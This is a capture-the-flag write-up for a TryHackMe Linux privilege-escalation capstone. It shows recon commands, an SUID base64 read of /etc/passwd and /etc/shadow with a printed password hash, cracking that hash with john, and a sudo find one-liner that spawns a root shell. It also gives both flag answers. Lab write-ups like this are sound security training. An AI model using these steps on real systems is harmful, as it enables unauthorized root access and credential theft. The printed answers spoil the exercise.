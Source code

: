 ## Linux Privilege Escalation: Capstone Challenge Solution


### What is the content of the flag1.txt file?

1. Let's gather info first about the machine
```
history
whoami
uname -a
uname -r 
/proc/version
/etc/issue
ps
sudo -l
ls
id
ifconfig
netstat -a
netstat -at
netstat -au
netstat -l 
env
```


2. Let's go to /home where we will discover that there are two other users `missy` and `rootflag`. From the history we know that the flag2.txt is in rootflag user. So chances are the `flag1.txt` is in `/home/missy`.

![Screenshot 2024-02-12 at 10 52 50 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/93885557-a88e-46b1-afec-ce37ae12a6da)

4. Let's first try checking if there is a kernel exploit.

![Screenshot 2024-02-12 at 10 57 42 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0816430f-bb90-4de7-84c3-25b1230dba59)

Let's make a quick look for a kernel exploit for version. `3.10.0-1160.el7.x86_64`

4. Let's check for sudo rights `sudo -l`. Unfortunately `leonard` has no sudo rights. 
![Screenshot 2024-02-12 at 11 07 07 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2c027c13-d03b-4e63-afc9-2f180c7868a0)

5. Check for SUID privileges.

`find / -type f -perm -04000 -ls 2>/dev/null`

![Screenshot 2024-02-12 at 11 10 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/7e65ff32-4be2-47e8-84ed-04bc072516c1)

There are multiple binaries which our current user has SUID access. Let's go to [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) to check if we can exploit any of these for root access.

We can exploit `base64` to read `/etc/passwd` and `/etc/shadow` and find information about user `missy`. Unfortunately we can't find any info about `rootflag` in these files. 

```bash
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode
```
**missy:x:1001:1001::/home/missy:/bin/bash**

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
**missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::**

6. Let's try cracking the password for `missy`. Create a local file `passwd.txt` and `shadow.txt` and copy the content from the target machine.

7. Unshadow the files:
   
   ```bash
   unshadow passwd.txt shadow.txt > passwords.txt
   ```
   
9. Run john the ripper on `passwords.txt`. Where we find that the password for `missy` is **Password1**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

9. Now on the target machine let's switch user to `missy` and use the password **Password1
```bash
su missy
cd /home/missy/Documents
cat flag1.txt
```

![Screenshot 2024-02-12 at 11 36 34 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/4ae12f6d-b4d0-424f-9526-b129ffe82e1b)

**Answer: THM-42828719920544**


### What is the content of the flag2.txt file?

1. Continuing from what we have done above, the current user is now `missy`. Let's check her privileges by running `sudo -l`
![Screenshot 2024-02-13 at 12 00 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/115e5260-e0a4-4719-a074-86f4977579ca)

2. We find out that user `missy` has sudo priviliges for `find`. Looking at [https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo), we discover we have sudo exploits for the `find` binary.
![Screenshot 2024-02-13 at 12 04 23 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/b4620444-2758-4034-a842-5c9e403eb604)

3. Let's execute what we have found in GTFObins which will spawn a terminal with root privileges. 
```bash
sudo find . -exec /bin/sh \; -quit
```
![Screenshot 2024-02-13 at 12 06 17 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/eb86560c-67b6-4bb0-b3a2-90ab9eb5462a)

4. Now let's find out the content of `flag2.txt `which is found in `/home/rootflag`

![Screenshot 2024-02-13 at 12 08 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/518b0142-04f4-43c8-bb93-848a65b03672)

**Answer: THM-168824782390238**


